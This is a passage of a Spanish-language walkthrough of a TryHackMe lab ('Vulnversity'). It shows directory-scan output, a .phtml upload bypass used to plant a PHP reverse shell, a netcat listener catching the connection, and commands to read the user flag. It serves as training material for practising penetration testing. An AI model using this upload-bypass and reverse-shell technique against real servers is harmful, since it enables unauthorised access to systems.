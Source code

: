 ```bash
/fonts                (Status: 301) [Size: 321] [--> http://10.10.244.174:3333/fonts/]
/images               (Status: 301) [Size: 322] [--> http://10.10.244.174:3333/images/]
/index.html           (Status: 200) [Size: 33014]                                      
/index.html           (Status: 200) [Size: 33014]                                      
/internal             (Status: 301) [Size: 324] [--> http://10.10.244.174:3333/internal/]
/js                   (Status: 301) [Size: 318] [--> http://10.10.244.174:3333/js/]      
/server-status        (Status: 403) [Size: 303]                                          
                                                                                         
===============================================================
2022/10/25 12:22:57 Finished
===============================================================

```

Buscando los directorios nos fijamos que el directorio /internal/ es el que presenta la página de subida de archivos.


Por norma general, los archivos .php suelen estar restringidos. Probamos en TryHackMe y resolvemos la siguiente pregunta.

Siguiendo los pasos de la room de TryHackMe, podemos observar que la extensión .phtml está permitida. 

Entonces, nos bajaremos la reverse shell de la página que nos facilita TryHackMe cambiando la IP (que deberá de ser la nuestra) y el puerto por el que estemos a la escucha.

Subimos la reverse shell y mientras estamos en escucha la ejecutamos desde /internal/uploads

```bash
❯ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.8.4.179] from (UNKNOWN) [10.10.244.174] 38976
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 12:27:07 up  1:49,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Conseguimos acceso a la máquina. Podemos ver el usuario de la siguiente manera: 

```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cd /home  
$ ls
bill
$ 
```

Conseguimos la flag del usuario:

```bash
$ cd bill
$ ls
user.txt
$ cat user.txt  
?????????????????????????
```
